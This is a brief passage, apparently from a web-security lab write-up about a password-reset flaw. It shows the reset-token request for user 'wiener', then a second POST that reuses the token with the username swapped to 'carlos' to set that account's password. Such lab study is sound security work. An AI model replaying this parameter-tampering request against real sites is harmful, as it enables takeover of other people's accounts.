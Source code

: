 ### First request:
```
POST /forgot-password HTTP/2

username=wiener
```
Which generates a temp password reset token and sends it to the user email e.g.:
```
https://web-security-academy.net/forgot-password?temp-forgot-password-token=1qr7bgujzvib1tiw4gk8bm3pw819prqh
```
When clicked on the link we're given back an html that has a reset password form with 2 fields (`new pass` and `confirm new pass`) which fires the second request (when submitted)

### Second request:
```
POST /forgot-password?temp-forgot-password-token=huxw7kzj13w4v79pfgnvg1dnmnmboiky HTTP/2

temp-forgot-password-token=huxw7kzj13w4v79pfgnvg1dnmnmboiky&username=carlos&new-password-1=vvv&new-password-2=vvv
```
